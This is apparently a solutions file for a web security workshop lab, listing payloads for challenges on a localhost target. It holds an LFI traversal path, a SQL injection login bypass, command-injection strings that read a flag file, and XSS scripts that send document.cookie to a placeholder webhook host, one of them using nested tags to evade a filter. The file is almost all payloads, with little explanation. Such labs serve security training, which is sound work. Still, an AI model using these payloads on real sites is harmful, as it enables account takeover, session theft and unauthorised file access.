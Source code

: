 # Web Security Workshop solutions

## LFI: exporting data on inspector gadget

Visit http://localhost:3001/?loc=..%2f..%2fdocument%2finsp3ct0r_g4dg3t_456afbc.ht.htmlml

## SQLi: basic

Username: admin'; --
Password: anything

## XSS: Reflection

```html
<script>
  document.location.href = "<Your webhook site>?c=" + document.cookie;
</script>
```

# OS Command injection: basic

To list the folder
`; ls #!`

To read the flag file
`; cat flag.txt #!`

## XSS: Getting the staff cookies

```html
<script>
  document.location.href = "<Your webhook site>?c=" + document.cookie;
</script>
```

## XSS: Getting the admin

```html
<scr<script>ipt>
document.location.href= "<Your webhook site>?c=" + document.cookie;
</scr</script>ipt>
```
